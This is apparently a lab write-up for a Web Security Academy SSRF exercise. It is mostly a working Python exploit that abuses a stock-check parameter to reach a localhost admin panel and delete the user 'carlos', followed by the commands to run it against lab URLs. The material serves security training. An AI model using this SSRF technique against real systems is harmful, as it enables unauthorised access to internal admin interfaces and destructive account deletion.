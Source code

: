 Vulnerable feature - stock check functionality

Goal - change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

Analysis:
localhost - http://localhost/
admin interface - http://localhost/admin
delete carlos - http:localhost/admin/delete?username=carlos

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_url_ssrf_payload = 'http://localhost/admin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    admin_ssrf_payload = 'http://localhost/admin'
    params2 = {'stockApi': admin_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)


if __name__ == "__main__":
    main()
```
Run the script
```bash
python3 ssrf-lab-01.py "https://ac601f415b12800232c700620026.web-security-academy.net"
```
RUN:
```bash
python3 ssrf-lab-01.py 'https://ac0b1f8d1ff73e428074793800860063.web-security-academy.net'
```
END!
